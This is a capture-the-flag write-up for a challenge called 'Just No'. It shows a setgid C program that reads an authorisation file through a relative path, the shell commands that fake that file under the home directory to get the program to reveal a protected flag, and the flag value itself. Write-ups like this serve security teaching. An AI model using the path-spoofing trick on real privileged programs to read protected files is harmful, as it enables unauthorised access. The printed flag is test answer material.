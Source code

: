 <!-- This markdown file is writeup template. -->

## Just No 40pt

### Problem
> A program at /problems/579fe8ee083cd54f55718c1324687c74 has access to a flag but refuses to share it. Can you convince it otherwise?

### Answer
Let's get the flag.

```bash
$ ll /problems/579fe8ee083cd54f55718c1324687c74
total 64
drwxr-xr-x   2 root       root       4096 Mar 22 02:59 ./
drwxr-x--x 573 root       root      36864 Apr  1 23:13 ../
-rw-r--r--   1 hacksports just-no_0     2 Mar 31 08:00 auth
-r--r-----   1 hacksports just-no_0    33 Mar 31 08:00 flag
-rwxr-sr-x   1 hacksports just-no_0  7800 Mar 31 08:00 justno*
-rw-r--r--   1 hacksports just-no_0   838 Mar 31 08:00 justno.c
$ /problems/579fe8ee083cd54f55718c1324687c74/justno
auth file says no. So no. Just... no.
```
Damn it :( Check the source code (`justno.c`).

```c:justno.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){ 
  FILE* authf = fopen("../../problems/579fe8ee083cd54f55718c1324687c74/auth","r"); 
  //access auth file in ../../../problems/579fe8ee083cd54f55718c1324687c74
  if(authf == NULL){
    printf("could not find auth file in ../../problems/579fe8ee083cd54f55718c1324687c74/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if(strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/579fe8ee083cd54f55718c1324687c74/flag","r");
    char flag[64];
    fgets(flag,64,flagf);
    printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
    fclose(flagf);
  }else{
    printf("auth file says no. So no. Just... no.\n");
  }
  return 0;
}
```

Aha! Accessing auth file is Relative paths. So spoof a directory structure and make a fake auth file!!!

```bash
$ mkdir -p ~/problems/579fe8ee083cd54f55718c1324687c74
$ cd problems/579fe8ee083cd54f55718c1324687c74
$ echo "yes" > auth
$ /problems/579fe8ee083cd54f55718c1324687c74/justno 
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 37df41ffe2da397584c43eabf8a50ee3
```

### Flag
37df41ffe2da397584c43eabf8a50ee3
